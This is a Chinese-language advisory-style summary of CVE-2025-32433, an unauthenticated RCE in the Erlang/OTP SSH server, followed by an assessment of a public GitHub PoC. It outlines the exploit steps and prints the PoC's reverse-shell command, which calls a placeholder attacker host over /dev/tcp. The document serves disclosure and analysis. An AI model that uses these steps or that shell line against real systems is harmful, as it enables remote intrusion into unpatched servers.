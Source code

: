 ## CVE-2025-32433-Erlang/OTP SSH 远程代码执行

**漏洞编号:** CVE-2025-32433

**漏洞类型:** 远程代码执行

**影响应用:** Erlang/OTP SSH

**危害等级:** 严重，未经身份验证的远程代码执行

**影响版本:** OTP-27.3.3 之前, OTP-26.2.5.11 之前, OTP-25.3.2.20 之前

**利用条件:** 目标系统运行存在漏洞版本的Erlang/OTP SSH服务，且攻击者可以访问该服务的网络端口（通常是22或自定义端口）。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-32433 漏洞是 Erlang/OTP SSH 服务器中的一个未经身份验证的远程代码执行（RCE）漏洞。该漏洞源于 SSH 协议消息处理中的缺陷。攻击者可以通过发送特制的 SSH 协议消息绕过身份验证，从而在受影响的系统上执行任意代码。

**利用方式：**

1.  **连接目标SSH服务：** 使用socket库与目标主机的SSH端口建立TCP连接。
2.  **发送SSH版本协商信息：** 发送SSH版本协商信息，表明支持的协议版本（例如SSH-2.0-OpenSSH）。
3.  **构建并发送恶意KEXINIT数据包：** 构造包含恶意参数的KEXINIT数据包。该数据包用于密钥交换算法协商，漏洞存在于对此类数据包的处理过程中。
4.  **构建并发送频道打开请求（channel_open）：** 发送频道打开请求，请求创建一个新的 SSH 会话频道。
5.  **构建并发送频道请求执行命令（channel_request）：**  发送频道请求执行命令，通常使用 `os:cmd()` 函数来执行操作系统命令，实现远程代码执行。利用代码中默认是反弹shell,执行的shell命令是`bash -c 'bash -i >& /dev/tcp/{攻击者IP}/{攻击者端口} 0>&1'`。
6.  **监听反弹Shell (如果使用反弹shell payload):** 攻击者在其监听端口上接收目标系统反弹回来的shell连接。

**POC有效性分析：**

从提供的漏洞库信息、搜索引擎结果和漏洞利用代码来看，该漏洞是一个严重的安全问题，影响多个版本的 Erlang/OTP SSH 服务器。多个来源确认了该漏洞的存在以及未经身份验证的 RCE 风险。提供的PoC代码基本实现了漏洞利用的全部过程。

**投毒风险分析：**

该 PoC 代码的主要功能是利用漏洞执行命令，从而实现反弹 shell。代码中没有发现明显的恶意代码，也没有执行与漏洞利用无关的操作。虽然该POC利用了反弹shell，但反弹shell 是漏洞利用的常见方法，不应将其本身视为投毒行为。因此，判断该代码存在恶意投毒的风险较低。

基于对漏洞利用代码的分析，投毒风险评估为0%。

**项目地址:** [dollarboysushil/CVE-2025-32433-Erlang-OTP-SSH-Unauthenticated-RCE](https://github.com/dollarboysushil/CVE-2025-32433-Erlang-OTP-SSH-Unauthenticated-RCE)

**漏洞详情:** [CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)